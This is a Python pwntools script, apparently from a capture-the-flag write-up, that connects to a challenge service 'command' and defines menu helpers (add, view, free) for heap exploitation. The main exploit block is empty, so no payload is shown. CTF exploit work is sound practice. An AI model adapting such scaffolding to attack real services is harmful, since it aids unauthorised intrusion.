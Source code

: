 ```py
from pwn import *
import sys
import ctypes
from ctypes import *
import os

context.arch="amd64"

def setup_env():
    libc = ctypes.cdll.LoadLibrary("./libc.so.6")
    LIBC = ELF("./libc.so.6")
    time = libc.time(0)
    os.system("touch ./ommands/{}".format(time))

if(len(sys.argv)>1):
    io=remote('command.pwn2.win',1337)
    context.noptrace=True
else:
    io=process("./command",env = {"LD_PRELOAD" : "./libc.so.6"})
    setup_env()


def send_name(name):
    io.sendafter('Your name: ',name)

def add(priority,command):
    io.sendlineafter('> ','1')
    io.sendlineafter('Priority: ',str(priority))
    io.sendafter('Command: ',command)

def view(idx):
    io.sendlineafter('> ','2')
    io.sendlineafter('index: ',str(idx))

def free(idx):
    io.sendlineafter('> ','3')
    io.sendlineafter('index: ',str(idx))

def list():
    io.sendlineafter('> ','4')

def ret():
    io.sendlineafter('> ','5')

def send_commands(ID):
    io.sendlineafter('which rbs?\n',str(ID))
    io.recvuntil('You command Mr. ')


if __name__=="__main__":
    
```
